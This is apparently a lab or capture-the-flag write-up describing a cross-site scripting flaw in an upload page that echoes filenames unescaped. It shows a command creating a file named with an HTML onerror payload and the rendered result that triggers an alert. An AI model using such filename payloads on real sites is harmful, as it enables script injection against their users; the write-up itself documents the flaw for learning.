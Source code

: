 # BONUS XSS breach on filename image upload

While trying to exploit a security breach on the `http://IP/index.php?page=upload` we've found an XSS breach on the uploaded filename.

After testing a huge file size upload to make the server crash etc. We've found out that the server looks like only allowing the upload of `.jpg` files.

When an upload ends successfully the uploaded file path is shown on the screen as following:

```txt
/tmp/filename.jpg succesfully uploaded.
```

Lets try out few things.

## The XSS exploit

First create your evil file

```shell
touch "<img src=a onerror=console.log(alert('XSS'))>.jpg"
```

Then upload it and voila.
The page reloads interpreting the filename as html, to finally execute the onerror attribute code, displaying an alert modal.

Results in:
```html
<pre>
    /tmp/
    <img src="a" onerror="console.log(alert('XSS'))">
    .jpg succesfully uploaded.
</pre>
```